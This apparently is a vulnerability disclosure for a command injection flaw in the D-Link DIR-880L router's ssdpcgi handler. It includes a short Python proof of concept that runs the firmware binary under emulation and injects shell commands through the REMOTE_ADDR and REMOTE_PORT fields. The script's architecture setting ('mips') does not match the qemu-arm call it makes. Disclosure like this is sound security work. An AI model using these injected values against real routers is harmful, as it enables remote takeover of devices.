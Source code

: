 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-880L

**Affected firmware version:** <=104WWb01

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=2811

# Overview

D-Link router DIR-880L 104WWb01 version has a serious command injection vulnerability. An attacker can set the request header through the path /htdocs/ssdpcgi and inject commands through the function sub_16570() to achieve remote command execution and even cause serious consequences. An attacker can use this vulnerability to execute arbitrary code by sending a specially constructed payload to port 49152.

# Vulnerability details

Attackers can control fields such as HTTP_ST, REMOTE_ADDR, REMOTE_PORT, SERVER_ID to implement command splicing

![image-20250411160232857](1/image-20250411160232857.png)

There is a command execution here

![image-20250411160351511](1/image-20250411160351511.png)

# POC

```py
from gt import *
con("mips")
post_content = "ddddd"
io = process(b"""
    qemu-arm -L ./ \
    -0 "ssdpcgi" \
    -E REQUEST_METHOD="POST" \
    -E SERVER_ID="cmd#cmdd" \
    -E CONTENT_TYPE="text/xml" \
    -E REQUEST_URI="aaa?service=" \
    -E REMOTE_ADDR=";id;" \
    -E CONTENT_LENGTH=5 \
    -E HTTP_ST="ssdp:all"  \
    -E REMOTE_PORT=";ls;"  \
    -g 1234 ./htdocs/cgibin
""", shell = True)
io.send(post_content)

io.interactive()
```

![image-20250411160410758](1/image-20250411160410758.png)

![image-20250411161659813](1/image-20250411161659813.png)